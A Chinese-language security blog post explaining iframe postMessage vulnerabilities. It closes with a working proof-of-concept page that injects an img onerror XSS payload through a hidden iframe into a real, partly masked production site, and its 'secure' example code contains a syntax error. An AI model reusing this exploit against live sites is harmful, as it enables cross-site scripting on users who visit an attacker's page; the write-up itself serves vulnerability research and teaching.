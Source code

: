 ```yaml
---
title: 挖掘iframe通信安全漏洞
date: 2022-06-12T14:45:47+08:00
lastmod: 2022-06-12T14:45:47+08:00
categories: ["安全"]
---
```




## 挖掘iframe通信安全漏洞

### 原理

跨域通信一般是直接ajax,用限定请求域名的方法来保证安全.但是也具有其中的局限性,只能读取服务器数据.而不能读取本地的localStorage数据等.

如果需要本地数据,依然需要iframe,现在iframe通信采用的是`postmessage`的形式

一个简单的例子就是

```
 window.addEventListener("message", (function(e) {
                console.log("[evt]", e.data),
                
 }
 
 window.parent.postMessage({
                            scrollHeight: t,
                            pageHight: t,
                            orange: e.warnSensitive,
                            red: e.dangerSensitive
 }, "*")
 
```

以上实际上是很不安全的例子,因为`postmessage`没有浏览器的跨域保护, 接收的数据可能来源于任何一个域名.

正确的写法应该是

```
 window.addEventListener("message", (function(e) {
   if (e.origin !== "http://example.com")
    return;
    }
   console.log("[evt]", e.data),
                e.data.cvid && (e.data.text || e.data.newHtml) &&      t.setContent(e.data)
 }
```



### 实战

![image-20220612144739249](/images/image-20220612144739249.png)

在浏览器f12就能直接看到iframe的载入. 当然iframe也可能是单纯用于展示,没有`postmessage`的通信.

不过可以在浏览器点击`global listeners` 然后看有没有`message`的事件监听者

![image-20220612150032455](/images/image-20220612150032455.png)

可以看到其中有两个,其中有一个是框架生成的,另一个才是程序员自己写的.框架那个做了验证,

蓝色的链接也能直接点到达代码位置



代码大致如下

```

 window.addEventListener("message", (function(e) {
                var t = this;
                console.log("[evt]", e.data),
                e.data.cvid && (e.data.text || e.data.newHtml) && t.setContent(e.data)
  }
  
  setContent: function(t) {
                if (t.newHtml) {
                    var n = function() {
                        var t = arguments.length &gt; 0 && void 0 !== arguments[0] ? arguments[0] : ""
                          , e = arguments.length &gt; 1 && void 0 !== arguments[1] ? arguments[1] : []
                          , n = arguments.length &gt; 2 && void 0 !== arguments[2] ? arguments[2] : []
                          , i = h(t, e)
                          , o = h(i.content, n)
                          , a = document.createElement("div")
                        a.innerHTML = o.content,
// 省略

```

直接传入了`innerhtml` ,从代码的取值可以构造出以下exp

```
<iframe width="800" height="800" id="bilibili" style="display:none"></iframe>
<script>
const iframe = document.getElementById("bilibili")
iframe.setAttribute("src", "https://www.***.com/h5/note-app/review");
iframe.addEventListener("load", () => {
iframe.contentWindow.postMessage(
                    {
                        newHtml:"<img onerror='console.log(1)' src='x' >",
                        cvid:1,
                    },"*"
);
})
</script>
```



### 总结

原理和挖掘是不难的, 主要依赖于程序员忘记对iframe验证的错觉. 危害评估最高也就csrf和xss的级别,依赖于被攻击者进入你的网站.

